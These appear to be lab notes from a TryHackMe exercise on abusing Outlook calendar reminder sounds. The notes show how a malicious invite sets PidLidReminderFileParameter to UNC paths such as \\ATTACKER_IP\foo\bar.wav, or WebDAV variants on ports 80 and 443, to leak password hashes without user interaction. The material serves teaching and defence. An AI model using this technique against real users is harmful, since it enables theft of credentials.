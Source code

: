 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)

## Table of Contents


You can specify the audio file played when a user gets a notification reminder for a calendar meeting or event. Typically, this would be used for a user to set up their own notifications by pointing to an audio file:

![Reminder Sound Configuration](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/471b82a81e0a4b210191dafe1a0a55e1.png)

Manipulating this parameter can enable a threat actor to force Outlook to leak the current password hashes to an attacker with zero interaction required.

Abusing Reminder Sounds via UNC Paths  

To exploit this vulnerability, create a malicious calendar invitation that includes a reference to a sound file.
This sound file ==must point to a file in a network share in the attacker's machine.== At a low level, an Outlook email stores the reference to the sound file in an internal parameter called **PidLidReminderFileParameter**. To ensure that the audio we embed in our malicious email will take precedence over the victim's default reminder configurations, we will also need to set another parameter called **PidLidReminderOverride** to `true`


o set up the **PidLidReminderFileParameter** property to point to a network share, the attacker can specify a **Universal Naming Convention (UNC)** path instead of a local file. UNC is used in Windows operating systems to find network resources (files, printers, shared documents). These paths consist of a double backslash, ==the IP address== *or* ==name== of the computer hosting the resource, the share name and the file name. For example:

`\\ATTACKER_IP\foo\bar.wav`


- If for some reason the SMB protocol isn't a viable alternative to use,

- non-server versions of Windows will accept using **UNC paths pointing to ports 80 or 443**, and use HTTP to retrieve the file from a WebDAV-enabled web server. The syntax of such UNC path is as follows:

`\\ATTACKER_IP@80\foo\bar.wav`

`\\ATTACKER_IP@443\foo\bar.wav`